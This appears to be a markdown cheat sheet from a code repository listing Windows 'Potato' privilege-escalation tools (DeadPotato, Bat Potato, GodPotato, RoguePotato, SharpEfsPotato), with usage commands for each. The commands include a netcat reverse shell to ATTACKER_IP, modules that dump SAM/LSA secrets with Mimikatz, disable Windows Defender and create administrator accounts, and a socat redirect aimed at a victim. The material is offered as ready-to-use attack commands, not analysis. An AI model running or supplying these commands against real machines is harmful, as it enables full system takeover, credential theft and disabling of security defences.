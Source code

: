 # Potato Exploits

Links for reference: 

1) https://github.com/AtvikSecurity/CentralizedPotatoes

2) https://jlajara.gitlab.io/Potatoes_Windows_Privesc


### 1) Dead Potato

Link: https://github.com/lypd0/DeadPotato

#### Usage

The SeImpersonatePrivilege right is enabled in your context? With DeadPotato, it is possible to achieve maximum privileges on the local system.

The tool will attempt to start an elevated process running in the context of the NT AUTHORITY\SYSTEM user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.

    C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

    _,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_
  
     (*) Example Usage(s):

     -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

     -> deadpotato.exe -cmd "whoami"
     -> deadpotato.exe -rev 192.168.10.30:9001
     -> deadpotato.exe -exe paylod.exe
     -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
     -> deadpotato.exe -shell
     -> deadpotato.exe -mimi sam
     -> deadpotato.exe -defender off
     -> deadpotato.exe -sharphound

     (*) Available Modules:

     - cmd: Execute a command as NT AUTHORITY\SYSTEM.
     - rev: Attempts to establish a reverse shell connection to the provided host
     - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
     - newadmin: Create a new administrator user on the local system.
     - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
     - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
     - defender: Either enables or disables Windows Defender's real-time protection.
     - sharphound: Attempts to collect domain data for BloodHound.

### 2) Bat Potato

Link: https://github.com/0x4xel/Bat-Potato

#### Usage

Attacker:

    python Bat-Potato.py

Server will be listening incomming requests. Keep that connection alive, open new tab and open another listening port for the reverse shell.

    rlwrap nc -lvnp 4444

You must upload the following files on the server:

- wget.exe

- Bat-Potato.bat file generated by python script

On the server, execute

    .\Bat-Potato.bat

This will upload shell.bat, nc.exe and Juicy binary from server and will attempt to Privesc making all the CLSID request automatically.

### 3) God Potato

Link: https://github.com/BeichenDream/GodPotato

1) Run commands

        GodPotato -cmd "cmd /c whoami"

2) Execute reverse shell

        GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe ATTACKER_IP PORT"

### 4) Rogue Potato

You need to have a machine under your control where you can perform the redirect and this machine must be accessible on port 135 by the victim

Link: https://github.com/k4sth4/Rogue-Potato

1) Run on your machine the socat redirection

       socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999

2) Execute PoC

       .\RoguePotato.exe -r YOUR_IP -e "command" -l 9999

### 5) SharpEfsPotato

Link: https://github.com/bugch3ck/SharpEfsPotato

Command:

    SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami"
